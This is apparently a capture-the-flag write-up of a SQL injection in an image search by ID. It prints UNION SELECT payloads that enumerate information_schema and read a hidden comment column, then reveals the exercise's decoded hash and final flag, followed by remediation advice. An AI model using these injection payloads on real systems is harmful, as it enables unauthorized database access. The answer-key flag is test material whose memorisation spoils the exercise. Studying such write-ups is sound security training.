 # SQL Injection in Image Search

## Description

Image search asked to input an ID. \
By searching IDs manually (`1, 2, 3, 4, 5`), we discovered an image titled **"HackMe?"**. \
This was a hint that the search mechanism can be exploitable. \

With **SQL Injection**, we found that the schema contained a table named `list_images`, containing the columns:
- `id`
- `url`
- `title`
- `comment`

We remarked that `comment` was not displayed, so we attempted to display it.

## Steps to Reproduce

### Identify Table Structure

List the existing table columns:

```sql
5 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

We discovered the table `list_images` with the columns: `id`, `url`, `title`, and `comment`.

### Display Hidden `comment` Column

`comment` was not displayed by default, so we did a query to retrieve its content:

```sql
5 UNION ALL SELECT id, comment FROM list_images
```

The comment of id 5 contained a cryptographic challenge:
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : `1928e8083cf461a51303633093573c46`
```

### Solve the Cryptographic Challenge

- **MD5 Decode** `1928e8083cf461a51303633093573c46` → `albatroz`
- **SHA-256 Hash** of `albatroz` (flag):
```
fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6
```

## Danger
- **SQL Injection**: The search input is directly injected into the SQL query, allowing unauthorized access to the database structure and data.
- **Data Exposure**: Sensitive columns such as `comment` can be retrieved even if they are not meant to be displayed.
- **Potential for Full Database Dump**: An attacker could enumerate all tables, extract user credentials, or even modify the database.

## Recommended Fix

1. **Use Prepared Statements** (Parameterized Queries) to prevent direct SQL injection.

2. **Sanitize and Validate User Input**

Ensure that only **numeric values** are accepted when querying by ID.

3. **Limit Database Permissions**

Ensure the web application uses a **read-only** database user whenever possible.

4. **Hide Internal Database Structure**

Never expose database schema information through error messages or direct queries.

5. **Implement Web Application Firewalls (WAFs)**

Use **ModSecurity** or similar tools to detect and block SQL Injection attempts.
